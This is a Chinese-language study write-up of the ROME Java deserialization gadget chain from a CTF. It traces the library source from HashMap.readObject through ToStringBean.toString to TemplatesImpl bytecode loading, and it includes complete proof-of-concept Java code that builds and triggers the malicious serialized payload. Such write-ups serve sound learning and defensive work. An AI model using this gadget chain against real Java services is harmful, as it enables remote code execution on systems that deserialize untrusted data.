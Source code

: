 # 前言

也算是忙里偷闲了，看了一下午的操作系统感觉自己就是傻子。。。晚上把前段时间的战疫比赛遇到的rome的反序列化链给学习了一下，之后应该还是继续课内的学习，除了打打比赛，其他的学习得等到寒假了。



# 分析

从网上找了利用链：

```java
TemplatesImpl.getOutputProperties()
NativeMethodAccessorImpl.invoke0(Method, Object, Object[])
NativeMethodAccessorImpl.invoke(Object, Object[])
DelegatingMethodAccessorImpl.invoke(Object, Object[])
Method.invoke(Object, Object...)
ToStringBean.toString(String)
ToStringBean.toString()
ObjectBean.toString()
EqualsBean.beanHashCode()
ObjectBean.hashCode()

HashMap<K,V>.hash(Object)
HashMap<K,V>.readObject(ObjectInputStream)
```

跟着看一下吧，`HashMap`那里肯定就是为了调用`hashCode`，直接跟进`ObjectBean`的`hashCode`：

```java
    public int hashCode() {
        return _equalsBean.beanHashCode();
    }
```

跟进`beanHashCode()`：

```java
    public int beanHashCode() {
        return _obj.toString().hashCode();
    }
```

调用了`_obj`的`toString()`，这也是继`BadAttributeValueExpException`之后的又一个利用`toString()`触发调用链的。

还需要看一下`ObjectBean`中的`_toStringBean`属性，它的类是`ToStringBean`，当调用`ObjectBean`对象的`toString`时，实际上是调用`ToStringBean`对象的`toString`：

```java
    public String toString() {
        Stack stack = (Stack) PREFIX_TL.get();
        String[] tsInfo = (String[]) ((stack.isEmpty()) ? null : stack.peek());
        String prefix;
        if (tsInfo==null) {
            String className = _obj.getClass().getName();
            prefix = className.substring(className.lastIndexOf(".")+1);
        }
        else {
            prefix = tsInfo[0];
            tsInfo[1] = prefix;
        }
        return toString(prefix);
    }
```

截取个`prefix`，然后继续跟进带参数的`toString(prefix)`：

```java
    private String toString(String prefix) {
        StringBuffer sb = new StringBuffer(128);
        try {
            PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(_beanClass);
            if (pds!=null) {
                for (int i=0;i<pds.length;i++) {
                    String pName = pds[i].getName();
                    Method pReadMethod = pds[i].getReadMethod();
                    if (pReadMethod!=null &&                             // ensure it has a getter method
                        pReadMethod.getDeclaringClass()!=Object.class && // filter Object.class getter methods
                        pReadMethod.getParameterTypes().length==0) {     // filter getter methods that take parameters
                        Object value = pReadMethod.invoke(_obj,NO_PARAMS);
                        printProperty(sb,prefix+"."+pName,value);
                    }
                }
            }
        }
        catch (Exception ex) {
            sb.append("\n\nEXCEPTION: Could not complete "+_obj.getClass()+".toString(): "+ex.getMessage()+"\n");
        }
        return sb.toString();
    }
```

关键就是`BeanIntrospector.getPropertyDescriptors(_beanClass);`这行代码，它获取类的属性的getter和setter，稍微跟进去看看一些处理就知道了：

```java
    private static PropertyDescriptor[] getPDs(Class klass) throws IntrospectionException {
        Method[] methods = klass.getMethods();
        Map getters = getPDs(methods,false);
        Map setters = getPDs(methods,true);
        List pds     = merge(getters,setters);
        PropertyDescriptor[] array = new PropertyDescriptor[pds.size()];
        pds.toArray(array);
        return array;
    }
```

 

之后下面的调用都懂了：

```java
                    Method pReadMethod = pds[i].getReadMethod();
                    if (pReadMethod!=null &&                             // ensure it has a getter method
                        pReadMethod.getDeclaringClass()!=Object.class && // filter Object.class getter methods
                        pReadMethod.getParameterTypes().length==0) {     // filter getter methods that take parameters
                        Object value = pReadMethod.invoke(_obj,NO_PARAMS);
```

获取对应的`Method`，如果它是无参的就调用了。

所以rome链的后面这部分利用其实就类似于`CommonsBeanutils`的链了，调用`TemplatesImpl`的`getOutputProperties`进行动态加载字节码来实现命令执行。



所以直接尝试构造POC就可以了，比较简单：

```java
package com.summer.rome;

import com.summer.util.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.util.HashMap;

public class RomeUn {
    public static void main(String[] args) throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class, templates);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);

        ObjectBean objectBean = new ObjectBean(String.class,"feng");


        HashMap evilMap = new HashMap();
        evilMap.put(objectBean,1);
        evilMap.put(objectBean,1);
        
        SerializeUtil.setFieldValue(objectBean,"_equalsBean",equalsBean);


        byte[] bytes = SerializeUtil.serialize(evilMap);
        SerializeUtil.unserialize(bytes);
    }
}

```



```java
package com.summer.util;

import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class SerializeUtil {
    public static Object getFieldValue(Object obj, String fieldName) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        return field.get(obj);
    }
    public static byte[] getEvilCode() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        return code;
    }

    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}

```



网上的链子似乎有个多余的点，它调用`_obj`的`toString`调用的是`ObjectBean`的`toString`来触发，没有这个必要，直接触发`ToStringBean`的`toString`即可。

同样的，为了防止`put`的时候触发反序列化，先放进去无害的，`put`完之后再利用反射来修改`_equalsBean`为恶意的。

![image-20211109203550428]([Java反序列化]rome反序列化学习.assets/image-20211109203550428.png)



# 总结

好久没看Java的反序列化了，一开始看起来去回忆之前的内容也花了一些时间，稍微把动态加载字节码还有`CommonsBeanutils`给回忆起来就会发现这条链子非常简单了。